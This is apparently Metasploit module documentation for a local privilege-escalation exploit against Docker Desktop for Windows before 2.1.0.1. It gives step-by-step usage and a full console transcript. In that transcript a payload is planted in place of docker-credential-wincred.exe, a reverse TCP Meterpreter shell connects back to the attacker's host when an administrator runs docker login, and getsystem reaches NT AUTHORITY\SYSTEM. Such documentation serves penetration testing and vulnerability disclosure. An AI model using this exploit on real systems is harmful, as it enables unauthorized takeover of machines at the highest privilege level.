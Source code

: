 ## Vulnerable Application

  Docker Desktop Community Edition before 2.1.0.1
  https://download.docker.com/win/stable/28905/Docker%20for%20Windows%20Installer.exe

## Verification Steps

  1. Install Docker Desktop Community Edition before 2.1.0.1
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/docker_credential_wincred```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. Using an administrator cmd shell on the target, run ```docker login``
  8. You should get a shell you can elevate with ```getsystem```.

## Scenarios

### Tested on Docker Community Edition 2.0.0.0 running on Windows 10x64 Release 1803

  ```
msf5 exploit(windows/local/docker_credential_wincred) > show options

Module options (exploit/windows/local/docker_credential_wincred):

   Name         Current Setting                            Required  Description
   ----         ---------------                            --------  -----------
   PROGRAMDATA  C:\ProgramData\DockerDesktop\version-bin\  no        Path to docker version-bin.
   SESSION                                                 yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/local/docker_credential_wincred) > set session 1
session => 1
msf5 exploit(windows/local/docker_credential_wincred) > check

[*] Docker version 18.09.0, build 4d60db4
[*] The target appears to be vulnerable.
msf5 exploit(windows/local/docker_credential_wincred) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] Docker version 18.09.0, build 4d60db4
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] payload_pathname = C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Making Payload
[*] Uploading Payload to C:\ProgramData\DockerDesktop\version-bin\\docker-credential-wincred.exe
[*] Payload Upload Complete
[*] Waiting for user to attemp to login
[*] Sending stage (180291 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49766) at 2020-04-15 16:32:09 -0500

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
